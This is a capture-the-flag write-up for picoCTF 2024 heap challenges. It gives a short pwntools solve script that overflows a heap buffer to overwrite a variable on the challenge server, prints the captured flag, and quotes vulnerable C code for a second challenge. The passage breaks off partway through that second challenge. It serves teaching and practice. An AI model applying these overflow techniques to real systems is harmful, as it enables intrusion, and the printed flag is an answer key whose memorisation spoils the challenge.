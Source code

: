 
### Heap 1 [100 PTS]

Pretty much the same thing as the first challenge except you need to overwrite `safevar` with `pico` instead of some junk bytes.

To make our lives easier the addresses of the heap data is printed.

![heap addresses](/assets/picoCTF2024/pwn/heap-1/heap%20state.png)

To find the distance between `safevar` and our input, just subtract the two addresses and you will get 32.

This means we need 32 bytes and then `pico`.

Final solve script:
```py
from pwn import ELF, p64, process, context, ROP, gdb, remote

# context.binary = binary = ELF("chal")
# p = process()
p = remote("tethys.picoctf.net", 57530)

p.sendline(b"2")

p.sendline(b"a" * 32+b'pico')

p.sendline(b"4")

p.interactive()
```

``🚩:`` **picoCTF{starting_to_get_the_hang_79ee3270}**

### Heap 2 [200 PTS]

This is also a Heap Overflow like the previous challenges.


We can see in the `check_win` function, it just calls whatever `x` is pointing to:
```c
((void (*)())*(int*)x)();
```
There is also a win function:

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```
